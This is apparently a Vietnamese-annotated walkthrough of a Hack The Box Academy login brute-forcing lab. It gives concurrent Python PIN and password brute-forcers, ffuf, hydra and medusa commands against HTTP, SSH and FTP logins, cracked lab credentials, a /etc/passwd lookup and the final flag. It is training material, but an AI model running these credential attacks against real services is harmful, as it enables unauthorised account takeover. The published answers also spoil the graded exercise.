


# Brute Force Attacks

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 94.237.54.192:44655   

Life Left: 89 minute(s)

Cheat Sheet

+ 2  After successfully brute-forcing the PIN, what is the full flag the script returns?

```python
import requests  
from tqdm import tqdm  
  
ip='94.237.54.192' # Change this  
port=44655 # Change this  
  
# Main  
pbar = tqdm(range(10000), unit="", desc="Trying PIN")  
  
for pin in pbar:  
    formated_pin = f'{pin:04d}' # Convert the number to a 4-digit string (e.g., 7 becomes "0007")  
    pbar.set_description(f"Trying PIN: {formated_pin}")  
  
    # Send requests to the server  
    response = requests.get(f'http://{ip}:{port}/pin?pin={formated_pin}')  
  
    if response.status_code == 200:  
        print(f'[+] Found PIN: {formated_pin}')  
        print(response.json())  
        break
```

Đây là chương trình của tôi nhanh hơn nhiều:

```python
import aiohttp  
import asyncio  
from tqdm.asyncio import tqdm_asyncio  
import sys  
  
ip = '94.237.55.43'  # Change this  
port = 34552  # Change this  
TIMEOUT = 5  # Timeout cho mỗi request (giây)  
CONCURRENT_LIMIT = 100  # Số request đồng thời tối đa  
  
  
async def try_pin(session, pin, semaphore):  
    formatted_pin = f"{pin:04d}"  
    url = f"http://{ip}:{port}/pin?pin={formatted_pin}"  
  
    try:  
        async with semaphore, session.get(url, timeout=aiohttp.ClientTimeout(total=TIMEOUT)) as response:  
            if response.status == 200:  
                data = await response.json()  
                return formatted_pin, data  
    except (aiohttp.ClientError, asyncio.TimeoutError):  
        return None  
    except Exception as e:  
        print(f"\n[!] Unexpected error: {e}")  
        return None  
  
  
async def main():  
    found_pin = None  
    # Tạo semaphore để giới hạn request đồng thời  
    semaphore = asyncio.Semaphore(CONCURRENT_LIMIT)  
  
    async with aiohttp.ClientSession(  
            connector=aiohttp.TCPConnector(limit=0),  
            headers={"Connection": "keep-alive"}  
    ) as session:  
        tasks = [  
            try_pin(session, pin, semaphore)  
            for pin in range(10000)  
        ]  
  
        progress = tqdm_asyncio(  
            asyncio.as_completed(tasks),  
            total=len(tasks),  
            unit="req",  
            desc="Brute-forcing PIN",  
            dynamic_ncols=True,  
            mininterval=0.5  
        )  
  
        try:  
            for future in progress:  
                result = await future  
                if result:  
                    found_pin, data = result  
                    progress.set_description(f"✅ FOUND PIN: {found_pin}")  
                    break  
        except KeyboardInterrupt:  
            print("\n[!] Brute force interrupted by user")  
            sys.exit(1)  
        finally:  
            progress.close()  
  
    if found_pin:  
        print(f"\n[+] Success! PIN: {found_pin}")  
        print(f"Server response: {data}")  
        sys.exit(0)  
    else:  
        print("\n[-] PIN not found. Try expanding the search range")  
  
  
if __name__ == "__main__":  
    # Thiết lập event loop cho Windows  
    if sys.platform == "win32":  
        asyncio.set_event_loop_policy(asyncio.WindowsSelectorEventLoopPolicy())  
  
    asyncio.run(main())
```


Còn một cách nữa nhanh hơn rất nhiều, chúng ta sẽ tạo một danh sách mã PIN 0000->9999 sau đó dùng tool như ffuf

```python
with open ('4-digits-PIN.txt','w') as f:
     for pin in range(10000):
         f.write(f'{pin:04d}\n')
```

Dùng fuff

```zsh
ffuf -w PINs.txt:FUZZ -u http://94.237.55.43:34552/pin?pin=FUZZ -mc 200
```

# Dictionary Attacks
#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 94.237.121.185:30966   

Life Left: 75 minute(s)

Cheat Sheet

+ 2  After successfully brute-forcing the target using the script, what is the full flag the script returns?
```python
import aiohttp  
import asyncio  
from tqdm.asyncio import tqdm_asyncio  
import sys  
  
ip = '94.237.121.185'  # Change this  
port = 30966  # Change this  
TIMEOUT = 5  
CONCURRENT_LIMIT = 100  
STOP_EVENT = asyncio.Event()  
  
  
async def try_password(session, password, semaphore):  
    if STOP_EVENT.is_set():  
        return None  
  
    url = f"http://{ip}:{port}/dictionary"  
    payload = {'password': password}  # Điều chỉnh theo form  
  
    try:  
        async with semaphore:  
            if STOP_EVENT.is_set():  
                return None  
  
            async with session.post(  
                    url,  
                    data=payload,  # Hoặc json=payload nếu là JSON  
                    timeout=aiohttp.ClientTimeout(total=TIMEOUT)  
            ) as response:  
  
                # Logic kiểm tra response thành công  
                if response.status == 200:  
                    text = await response.text()  
                    if "flag" in text:  # Điều chỉnh theo response  
                        STOP_EVENT.set()  
                        return password, text  
                    # Hoặc kiểm tra response code đặc biệt  
                    # if response.status == 302:  # Redirect sau login thành công    except (aiohttp.ClientError, asyncio.TimeoutError):  
        return None  
    except Exception as e:  
        if not STOP_EVENT.is_set():  
            print(f"\n[!] Error for '{password}': {str(e)[:50]}")  
        return None  
  
  
async def main():  
    found_password = None  
    semaphore = asyncio.Semaphore(CONCURRENT_LIMIT)  
  
    # Đọc danh sách password từ file  
    try:  
        with open('/usr/share/seclists/Passwords/500-worst-passwords.txt', 'r', encoding='utf-8', errors='ignore') as f:  
            passwords = [line.strip() for line in f if line.strip()]  
    except Exception as e:  
        print(f"[!] File error: {e}")  
        return  
  
    print(f"[*] Loaded {len(passwords)} passwords")  
  
    async with aiohttp.ClientSession(  
            connector=aiohttp.TCPConnector(limit=0),  
            headers={"User-Agent": "Mozilla/5.0"}  # Thêm header nếu cần  
    ) as session:  
        tasks = []  
        for password in passwords:  
            # Tạo task cho mỗi password  
            task = asyncio.create_task(try_password(session, password, semaphore))  
            tasks.append(task)  
  
        progress = tqdm_asyncio(  
            asyncio.as_completed(tasks),  
            total=len(tasks),  
            unit="pwd",  
            desc="Brute-forcing Passwords",  
            dynamic_ncols=True  
        )  
  
        try:  
            for future in progress:  
                if STOP_EVENT.is_set():  
                    break  
  
                result = await future  
                if result:  
                    found_password, response_data = result  
                    progress.set_description(f"✅ FOUND: {found_password}")  
                    break  
  
        except KeyboardInterrupt:  
            print("\n[!] Interrupted by user")  
            STOP_EVENT.set()  
        finally:  
            # Hủy các task chưa hoàn thành  
            for task in tasks:  
                if not task.done():  
                    task.cancel()  
  
            progress.close()  
            await asyncio.sleep(0.1)  # Cho phép hủy task  
    if found_password:  
        print(f"\n[+] Success! Password: {found_password}")  
        print(f"Response: {response_data[:200]}...")  # Hiển thị một phần response  
        sys.exit(0)  
    else:  
        print("\n[-] Password not found")  
        sys.exit(1)  
  
if __name__ == "__main__":  
    if sys.platform == "win32":  
        asyncio.set_event_loop_policy(asyncio.WindowsSelectorEventLoopPolicy())  
  
    asyncio.run(main())
```

Hoặc

```zsh
ffuf -w /usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt:FUZZ \  
-u http://94.237.121.185:30966/dictionary \
-X POST \
-d "password=FUZZ" \
-H "Content-Type: application/x-www-form-urlencoded" \
-t 100 \
-timeout 10 \
-mc 200
```




# Basic HTTP Authentication

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 94.237.59.174:44167   

Life Left: 90 minute(s)

Cheat Sheet

+ 2  After successfully brute-forcing, and then logging into the target, what is the full flag you find?

```zsh
hydra -l basic-auth-user -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/2023-200_most_used_passwords.txt 94.237.59.174 http-get / -s  44167
```

```zsh
cred=$(echo -n 'basic-auth-user:Password@123' | base64)
```

```zsh
curl http://94.237.59.174:44167 -H "Authorization: basic $cred" | grep 'HTB'
```

# Login Forms
#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 94.237.51.163:42960   

Life Left: 81

Cheat Sheet

+ 2  After successfully brute-forcing, and then logging into the target, what is the full flag you find?
```zsh
hydra -L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/2023-200_most_used_passwords.txt -f 94.237.51.163 -s 42960 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid" -I -v -t 64
```

# Web Services

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 94.237.54.192:39065   

Life Left: 84 minute(s)

Cheat Sheet

+ 0  What was the password for the ftpuser?

```zsh
nmap -p 39065 -sCV 94.237.54.192
```

```zsh
medusa -u sshuser -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/2023-200_most_used_passwords.txt -M ssh -t 4 -h 94.237.54.192 -n 39065 -f

2025-06-21 09:24:18 ACCOUNT FOUND: [ssh] Host: 94.237.54.192 User: sshuser Password: 1q2w3e4r5t [SUCCESS]
```

```zsh
ssh sshuser@94.237.54.192 -p 39065
```

```zsh
medusa -f -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 64 -h 127.0.0.1
```

+ 2  After successfully brute-forcing the ssh session, and then logging into the ftp server on the target, what is the full flag found within flag.txt?
```zsh
ftp 127.0.0.1
```

# Custom Wordlists
#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 94.237.60.55:53041   

Life Left: 86 minute(s)

Cheat Sheet

+ 2  After successfully brute-forcing, and then logging into the target, what is the full flag you find?
```zsh
./username-anarchy Jane Smith > /tmp/jane_smith_usernames.txt
```

```zsh
grep -E '^.{6,}$' jane.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jane-filtered.txt
```

```zsh
hydra -L jane_smith_usernames.txt -P jane-filtered.txt -f 94.237.60.55 -s 53041 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid" -t 64 -I
```



# Skills Assessment Part 1

---

The first part of the skills assessment will require you to brute-force the the target instance. Successfully finding the correct login will provide you with the username you will need to start Skills Assessment Part 2.

You might find the following wordlists helpful in this engagement: [usernames.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt) and [passwords.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt)

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 83.136.253.201:45446   

Life Left: 89 minute(s)

Cheat Sheet

+ 0  What is the password for the basic auth login?

```zsh
hydra -L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/2023-200_most_used_passwords.txt -f 83.136.253.201 http-get / -s 45446 -t 64
```

```zsh
[45446][http-get] host: 83.136.253.201   login: admin   password: Admin123
```

+ 4  After successfully brute forcing the login, what is the username you have been given for the next part of the skills assessment?

# Skills Assessment Part 2

---

This is the second part of the skills assessment. `YOU NEED TO COMPLETE THE FIRST PART BEFORE STARTING THIS`. Use the username you were given when you completed part 1 of the skills assessment to brute force the login on the target instance.

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): Click here to spawn the target system!  

Cheat Sheet

+ 0  What is the username of the ftp user you find via brute-forcing?

```zsh
hydra -l satwossh -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/2023-200_most_used_passwords.txt ssh://94.237.51.163 -s 37572 -t 5 -I
```

```
[37572][ssh] host: 94.237.51.163   login: satwossh   password: password1
```

```zsh
ssh satwossh@94.237.51.163 -p 37572
```

```zsh
./username-anarchy/username-anarchy Thomas Smith > thomas_smith_usernames.txt
```

Nếu bạn muốn đi đường tắt:

```zsh
cat /etc/passwd | grep -v "nologin"
```

Ở đó bạn sẽ thấy người dùng `thomas`

```zsh
hydra -l thomas -P passwords.txt ftp://127.0.0.1 -t 64 -I -f
```

```
[21][ftp] host: 127.0.0.1   login: thomas   password: chocolate!
```

+ 4  What is the flag contained within flag.txt

```zsh
ftp 127.0.0.1
```

```zsh
cat flag.txt 
HTB{brut3f0rc1ng_succ3ssful}
```